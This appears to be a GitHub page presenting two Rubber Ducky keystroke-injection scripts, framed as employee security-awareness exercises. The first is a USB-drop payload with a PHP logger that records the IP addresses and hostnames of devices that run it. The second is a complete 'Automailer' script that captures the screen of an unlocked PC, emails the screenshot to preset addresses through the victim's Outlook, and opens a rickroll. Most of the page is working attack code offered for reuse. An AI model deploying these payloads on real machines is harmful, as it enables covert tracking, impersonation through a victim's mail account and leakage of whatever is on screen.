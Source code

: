 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

## Rubber Ducky Dropoff Attack

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks. The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```

The .php was created and loaded into our webpage by one of my colleagues, the code is basically this:

```php
<?php

$file = 'log.txt';
$entry = file_get_contents($file);
$time = date('Y-m-d H:i:s', time());
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s' . PHP_EOL, $time, $ip);
} else {
    $ip = $_SERVER['REMOTE_ADDR'];
    $host = gethostbyaddr($_SERVER['REMOTE_ADDR']);
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s, %s' . PHP_EOL, $time, $host, $ip);
}
file_put_contents($file, $entry);

header('Location: ' . 'https://google.com');
die();
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory. A few days after dropping it off, we had the results we wanted to see:

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

## Rubber Ducky Automailer Prank

To remind people to never keep their PC unlocked, I have created a second script for the RubberDucky. It allows me to plug the USB in an unlocked device, wait while it causes some mischief. The script snaps a screenshot, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted one hour rickroll youtube video once done. 

This configuration works a little better than most others you could find on github as it uses `outlook.exe /c ipm.note /m` instead of opening the outlook messenger somehow different.

```
REM Title:          Automailer
REM Author:	    Ratcode404
REM Description:    Snaps screen, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted 1 hour rickroll youtube video once done.

REM Default Delay (350 should be mid-speed)
DEFAULT_DELAY 350

REM Take screenshot
SHIFT WINDOWS S
DELAY 200
TAB
TAB
TAB
TAB
ENTER
DELAY 300

REM Open Outlook (Change E-Mail and text)
GUI r
DELAY 100
STRING outlook.exe /c ipm.note /m ratcode404@notarealmail.com?v=1&cc=ratcode405@notarealmail.com
ENTER
DELAY 500
STRING Subject goes here.
TAB
STRING Hello Ratcode!
ENTER 
STRING I like to leave my device unlocked and would want to invite you to some free dinner tonight.
ENTER
STRING xoxo

REM Paste Screenshot in Mail (CTRL V)
SHIFT INSERT
DELAY 200

REM Send Mail
ALT S
ENTER
DELAY 200

REM Rickroll, Mute and Fullscreen (Can adjust link obviously)
GUI r
DELAY 100
STRING https://www.youtube.com/watch?v=zL19uMsnpSU
ENTER
DELAY 300
M
DELAY 200
F
```
